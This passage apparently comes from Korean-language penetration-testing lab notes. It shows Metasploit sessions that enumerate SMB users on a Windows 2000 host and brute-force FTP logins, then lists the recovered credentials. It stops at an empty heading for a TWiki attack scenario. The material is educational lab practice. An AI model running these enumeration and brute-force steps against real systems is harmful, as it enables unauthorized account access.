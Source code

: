 그 외, 다양한 스캔을 해볼 수 있다. (직접 실습한 부분)
{: .notice}

```
msf5 > use auxiliary/scanner/smb/smb_enumusers
msf5 auxiliary(scanner/smb/smb_enumusers) > set rhosts 192.168.0.174
rhosts => 192.168.0.174
msf5 auxiliary(scanner/smb/smb_enumusers) > set threads 256
threads => 256
msf5 auxiliary(scanner/smb/smb_enumusers) > run

결과

[+] 192.168.0.174:445     - W2K-14 [ Administrator, Guest, IUSR_W2K, IWAM_W2K, NetShowServices, TsInternetUser ] ( LockoutTries=0 PasswordMin=0 ) //계정 잠금 정책이 없다
[*] 192.168.0.174:        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Brute Force 공격했던 부분 
{: .notice}

```
msf5 > use auxiliary/scanner/ftp/ftp_login
msf5 auxiliary(scanner/ftp/ftp_login) >
msf5 auxiliary(scanner/ftp/ftp_login) >
msf5 auxiliary(scanner/ftp/ftp_login) > set rhosts 192.168.0.144
rhosts => 192.168.0.144
msf5 auxiliary(scanner/ftp/ftp_login) > set user_file ~/users.txt
user_file => ~/users.txt
msf5 auxiliary(scanner/ftp/ftp_login) > set pass_file ~/passwords.txt
pass_file => ~/passwords.txt
msf5 auxiliary(scanner/ftp/ftp_login) > set stop_on_success false
stop_on_success => false
msf5 auxiliary(scanner/ftp/ftp_login) > set threads 256
threads => 256
msf5 auxiliary(scanner/ftp/ftp_login) > run


확인하는 법은
Use auxiliary/scanner/ssh/ssh_login
Creds 192.168.0.144
msf5 auxiliary(scanner/ftp/ftp_login) > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > creds 192.168.0.144
Credentials
===========

host           origin         service       public  private  realm  private_type  JtR Format
----           ------         -------       ------  -------  -----  ------------  ----------
192.168.0.144  192.168.0.144  21/tcp (ftp)  user1   4545            Password    
192.168.0.144  192.168.0.144  21/tcp (ftp)  admin1  6789            Password
```

---
### 시나리오 공격 1 (twiki 대상 웹 서비스 공격)
---

